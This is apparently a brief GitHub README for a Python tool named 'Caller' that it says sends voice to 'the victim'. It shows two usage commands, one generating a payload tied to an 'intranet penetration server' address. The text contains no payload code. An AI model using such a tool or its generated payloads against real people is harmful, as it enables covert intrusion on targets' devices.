




  

 
 
  
 
 

 

 
   
 <table>
  <tr>
      <th>Function</th>
  </tr>
  <tr>
    <th>Send voice to the victim</th>

</tr>
 
 </table>

  
## Caller Example

``#python3 Caller.py -h``

 

## Caller Send voice to the victim

*-g Generate a payload and use -rh to fill in the intranet penetration server*

``#python3 Caller.py -lp 10031 -rh xxx.xxx.xxx.xxx:10003 -g``

 

 

 